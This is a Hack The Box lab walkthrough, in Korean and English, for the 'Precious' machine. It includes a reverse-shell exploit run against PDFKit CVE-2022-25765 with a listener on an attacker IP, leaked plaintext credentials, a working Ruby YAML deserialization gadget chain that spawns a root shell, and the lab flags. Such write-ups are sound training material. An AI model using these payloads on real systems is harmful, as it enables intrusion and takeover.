










# HTB Walkthrough - Precious

**Machine:** Precious  
**Target IP:** 10.129.99.246  

---

## Enumeration

### Nmap Scan
```bash
nmap -sV -sC -oA nmap/Precious 10.129.99.246
```


**Open Ports:**
- 22/tcp (OpenSSH 8.4p1 Debian)
- 80/tcp (nginx 1.18.0)

```bash
nmap -Pn -n --open -p- --max-retries 1 --min-rate 2000 -oA nmap/fullTcp 10.129.99.246
```

### /etc/hosts 설정
```
10.129.99.246   precious.htb
```


---

## Task 1 - Web Server Software


**A:** `Phusion Passenger`

---

## Task 2 - Scripting Language

**A:** `X-Runtime`

---

## Task 3 - Ruby PDF Library

**A:** `pdfkit`

---

## Task 4 - CVE


**A:** `CVE-2022-25765`

---

## Task 5 - Bundler 설정 디렉토리
```bash
cd /home/ruby
ls -al
```


**A:** `.bundle`

---

## Initial Foothold (User Access)

```bash
nc -nlvp 9999
python3 exploit.py -s 10.10.14.156 9999 -w http://precious.htb/ -p url
```

리버스 셸 연결 후 `.bundle/config` 에서 henry의 크리덴셜 발견:
```
henry:Q3c1AqGHtoI0aXAYFH
```


```bash
ssh henry@10.129.99.246
Password: Q3c1AqGHtoI0aXAYFH
```

### User Flag
```bash
cat /home/henry/user.txt
```


**Flag:** `ba2f03d84f25b774b3b262c153ff72a0`

---

## Task 7 - Sudo 권한 확인
```bash
sudo -l
```


**A:** `/usr/bin/ruby /opt/update_dependencies.rb`

---

## Task 8 - 사용자 입력을 받는 파일

```ruby
def list_from_file
  YAML.load(File.read("dependencies.yml"))
end
```

**A:** `dependencies.yml`

---

## Root Privilege Escalation

루트 권한으로 YAML 로드가 가능한 Ruby 스크립트 존재. 이를 이용해 RCE 가능.

### Exploit Payload (dependencies.yml):
```yaml
---
- !ruby/object:Gem::Installer
  i: x
- !ruby/object:Gem::SpecFetcher
  i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
        read: 0
        header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
        socket: &1 !ruby/object:Gem::RequestSet
          sets: !ruby/object:Net::WriteAdapter
            socket: !ruby/module 'Kernel'
            method_id: :system
          git_set: /bin/bash
        method_id: :resolve
```

```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```


### Root Flag
```bash
cat /root/root.txt
```


**Flag:** `18c457ee30e36677778fe36b29518c8d`

---

## 정리
- 초기 취약점: `PDFKit` RCE via URL injection
- 사용자 권한: `.bundle/config`에서 비밀번호 유출
- 루트 권한: `update_dependencies.rb`가 `YAML.load`를 통해 루트로 RCE 가능
